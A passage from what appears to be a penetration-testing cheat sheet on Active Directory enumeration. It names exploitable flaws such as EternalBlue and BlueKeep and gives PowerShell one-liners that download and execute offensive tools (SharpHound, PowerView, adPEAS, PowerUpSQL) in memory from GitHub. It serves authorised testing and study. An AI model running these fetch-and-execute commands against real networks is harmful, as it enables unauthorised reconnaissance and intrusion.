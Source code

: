 - Possible exploit opportunities (MS08-067, EternalBlue, Bluekeep)
- Abusing a running service running in the context of `SYSTEM`

## Enumeration Tools

**adPEAS:** [https://github.com/61106960/adPEAS](https://github.com/61106960/adPEAS)
**BloodHound:** [https://github.com/BloodHoundAD/BloodHound](https://github.com/BloodHoundAD/BloodHound)
**Invoke-ADEnum:** [https://github.com/Leo4j/Invoke-ADEnum](https://github.com/Leo4j/Invoke-ADEnum)
**Powerview:**[https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
**Pywerview:** [https://github.com/the-useless-one/pywerview](https://github.com/the-useless-one/pywerview)

```bash
# adPEAS
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/61106960/adPEAS/main/adPEAS.ps1);Invoke-adPEAS
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/61106960/adPEAS/main/adPEAS-Light.ps1);Invoke-adPEAS

# BloodHound
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1);Invoke-Bloodhound -CollectionMethod "All,GPOLocalGroup"
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1);Invoke-Bloodhound -CollectionMethod "All,GPOLocalGroup" -Loop -Loopduration 06:00:00 -LoopInterval 00:15:00

# Invoke-ADEnum
IEX(IWR -UseBasicParsing https://raw.githubusercontent.com/Leo4j/Invoke-ADEnum/main/Invoke-ADEnum.ps1);Invoke-ADEnum

# PowerUpSQL
IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/NetSPI/PowerUpSQL/master/PowerUpSQL.ps1")

# PowerView
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1)
```

## Native AD Module

```powershell
iex (new-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1");Import-ActiveDirectory
```

## General Enumeration

### Domain Computer Enumeration
